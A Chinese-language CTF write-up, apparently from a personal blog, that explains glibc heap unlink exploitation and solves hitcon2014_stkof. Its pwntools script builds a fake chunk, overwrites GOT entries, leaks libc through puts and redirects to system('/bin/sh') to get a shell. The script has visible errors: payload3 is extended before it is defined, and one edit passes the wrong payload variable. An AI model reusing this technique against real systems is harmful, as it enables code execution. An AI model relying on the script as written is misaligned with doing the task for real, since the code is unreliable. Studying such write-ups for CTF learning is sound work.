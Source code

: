 ```yaml
---
title: Unlink
date: 2022-03-18 11:16:02
tags:
   - 堆
---
```


<!--more-->

# Unlink

![image-20220318112224504](https://s2.loli.net/2022/03/27/Dnbdx8jt7YreW1J.png)

## **Unlik原理**

这里参考星盟的视频

![image-20220318113047601](https://s2.loli.net/2022/03/27/VnMvSW46TwaeOYj.png)

这里的fd和bk分别指向bin中下一个空闲的chunk和上一个空闲的chunk，这里的转变我没看懂，但是自己手写一下就可以弄得很清楚了

![image-20220318114323910](https://s2.loli.net/2022/03/27/cvULxVtzigXW7bZ.png)

例如其实相当于把P释放吧(与前一个free堆块合并)，**断链之后 P 指针将指向 (&p-0x18)的内存** 

```
*chunk=p
p->fd=chunk-0x18 
p->bk=chunk-0x10
```

![image-20220318143511195](https://s2.loli.net/2022/03/27/W4HDosiAVqf51tY.png)

## 注意

**上图的FD和BK并不是指P堆块的前后两堆块!!!**

而是两个变量,只是把p->fd和p->bk具体化

```
举例:
chunk=0x602280,*chunk=p
p->fd=chunk-0x18=0x602268
p->bk=chunk-0x10=0x602270
绕过:
FD=p->fd=0x602268
BK=p->bk=0x602270
经过check:
FD->bk=0x602268+0x18=0x602280=BK=p
Bk->fd=0x602270+0x10=0x602280=FD=p

```

可以参考文章:

https://www.sohu.com/a/361734778_658302

## 例题hitcon2014_stkof

![image-20220318164854713](C:\Users\22761\AppData\Roaming\Typora\typora-user-images\image-20220318164854713.png)

程序没有开pie

IDa查看,main函数是个菜单

![image-20220318172945138](https://s2.loli.net/2022/03/27/bjA9KplqOUTLzky.png)

### create函数

但注意这里有个++,所以堆块序列从1开始

![image-20220318173040401](https://s2.loli.net/2022/03/27/k6BuK4SLxd9Tw3W.png)

可验证一下

![image-20220318173307666](https://s2.loli.net/2022/03/27/LV8lNv5m9XMdnUs.png)

### delete函数

![image-20220318173349368](https://s2.loli.net/2022/03/27/i3anUAKfmDbBYFO.png)

free正常

### edit函数

![image-20220318173711863](https://s2.loli.net/2022/03/27/4o92AqgNXKwSyke.png)

## 想法

存在堆溢出漏洞,又不是UAF,只能用unlink来做,先通过构造断链将 P 指针指向 FD(&p-0x18)的内存 ,然后在FD上实现任意地址写,而且本题没有开pie保护，先把free,puts和atoi函数写入,然后用system可以覆盖free或者atoi,如果覆盖free函数,那么之后只要free('/bin/sh\x00')系统就会自动调用system('/bin/sh');如果覆盖atoi函数,那只要直接send('/bin/sh')即可。

## EXP

```
# -*- coding: utf-8 -*- 
from pwn import *
context.log_level='debug'
p = process("./stkof")
elf=ELF('./stkof')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

def alloc(size):
    p.sendline('1')
    p.sendline(str(size))
    p.recvuntil('OK\n')


def edit(idx, size, content):
    p.sendline('2')
    p.sendline(str(idx))
    p.sendline(str(size))
    p.send(content)
    p.recvuntil('OK\n')

def free(idx):
    p.sendline('3')
    p.sendline(str(idx))
alloc(0x80)
alloc(0x30)
alloc(0x80)
alloc(0x80)
free(2)
ptr=0x602150
fd=ptr-0x18
bk=ptr-0x10
payload=''
payload+=p64(0)+p64(0x31)+p64(fd)+p64(bk)#0x31是指示位，1代表占用，0代表free
payload=payload.ljust(0x30,'a')
payload+=p64(0x30)+p64(0x90)#0x30前一个堆块大小，0x90修改指示位
edit(2,0x40,payload)#使得ptr=FD
free(3)#释放第三个堆块，使它和第二个堆块合并产生unlink
gdb.attach(p)
puts_got=elf.got['puts']
puts_plt=elf.plt['puts']
atoi_got=elf.got['atoi']
free_got=elf.got['free']
payload1=''
payload1+=p64(0)+p64(puts_got)+p64(atoi_got)+p64(free_got)
edit(2,len(payload),payload)#覆盖四个指针
payload2=''
payload2+=p64(puts_plt)#用puts覆盖free函数
edit(2,len(payload2),payload2)
free(0)#泄露puts的真实地址
puts_addr=u64(p.recv(6).ljust(8,'\x00'))
#puts_addr=u64(p.recv('\x7f')[-6:].ljust(8,'\x00'))
offset=puts_addr-libc.sym['puts']
sys_addr=offset+libc.sym['system']
payload3+=p64(sys_addr)
# edit(2,len(payload3),payload3)#办法一，覆盖free函数
# payload4=p64('/bin/sh\x00')
# edit(1,len(payload4),payload4)
# free(1)
edit(1,0x8,payload3)#办法二，覆盖atoi函数
p.sendline('/bin/sh')
p.interactive()
```

## 总结

个人理解，可能有偏差

![image-20220320103238299](https://s2.loli.net/2022/03/27/yAUGChOmf6zw8VE.png)
